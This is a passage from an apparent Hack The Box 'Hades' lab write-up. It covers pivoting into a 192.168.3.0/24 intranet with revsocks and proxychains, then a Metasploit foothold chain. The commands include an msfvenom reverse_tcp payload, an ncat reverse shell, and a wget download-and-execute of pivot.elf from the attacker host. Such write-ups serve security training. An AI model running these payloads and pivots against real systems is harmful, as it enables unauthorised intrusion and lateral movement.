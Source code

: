 The futher engagement is taking place through pivoting to the intranet network (192.168.3.0/24) through the gateway (10.13.38.16). For the proxying needs I will mostly use [revsocks](https://github.com/kost/revsocks):

```
root@kali:~/htb/endgames/hades$ ./revsocks -listen :8000 -socks 127.0.0.1:1080 -pass passw0rd
www-data@cee1146c7ac1:/tmp$ ./revsocks -connect 10.14.14.37:8000 -pass passw0rd
```

It should also be noted that it's handy to reduce (by 10 times) proxychains' timing options when you're trying to nmap the environment in order not to wait too long for filtered ports to time out:

```
root@kali:~$ cat /etc/proxychains4.conf |grep time_out
tcp_read_time_out 1500
tcp_connect_time_out 800
```

When it comes to dealing with multiple meterpreter sessions, it's more handy to use Metasploit builtin proxy server but it's a way slower. So if you choose MSF SOCKS proxy, you may want to increase the timeout options above (otherwise there'd be no connection at all).

A raw killchain for the foothold part with MSF:

```
root@kali:$ msfdb start && msfconsole -qr autorun.rc
root@kali:$ msfvenom -p linux/x86/meterpreter/reverse_tcp -b '\x00\xff' -n 100 LHOST=10.14.14.37 LPORT=9001 -f elf --platform linux -a x86 > pivot.elf

root@kali:$ ./ssltools_shell.sh
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.13.38.16.
Ncat: Connection from 10.13.38.16:49513.
bash: cannot set terminal process group (39): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cee1146c7ac1:/var/www/html/ssltools$ ls
0fe092ba0_flag.txt
certificate.php
logo.png

www-data@cee1146c7ac1:/var/www/html/ssltools$ cat 0fe092ba0_flag.txt
HADES{Fr4gil3_************}

www-data@cee1146c7ac1:/var/www/html/ssltools$ mkdir /tmp/.1 && cd /tmp/.1 && wget 10.14.14.37/pivot.elf && chmod +x pivot.elf && ./pivot.elf &

meterpreter > run autoroute -s 192.168.3.0/24
meterpreter > run autoroute -p
(Same as)
msf5 > route add 192.168.3.0/24 1
msf5 > route
```
